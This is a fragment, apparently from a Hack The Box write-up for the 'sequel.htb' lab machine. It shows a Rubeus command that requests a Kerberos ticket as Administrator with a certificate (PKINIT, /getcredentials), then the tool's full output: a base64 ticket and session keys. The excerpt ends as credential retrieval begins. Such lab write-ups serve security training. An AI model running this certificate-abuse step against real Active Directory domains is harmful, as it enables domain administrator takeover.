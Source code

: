 ```powershell
./rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials
```

```ruby
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::a947:6718:ea49:512e%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  Administrator
  UserRealm                :  SEQUEL.HTB
  StartTime                :  3/2/2023 7:56:10 PM
  EndTime                  :  3/3/2023 5:56:10 AM
  RenewTill                :  3/9/2023 7:56:10 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable
  KeyType                  :  rc4_hmac
  Base64(key)              :  11MbvUjP0nSkxSOrYsM+nA==
  ASREP (key)              :  46C25F427523D3611F7533B287E88287

[*] Getting credentials using U2U

  CredentialInfo         :
```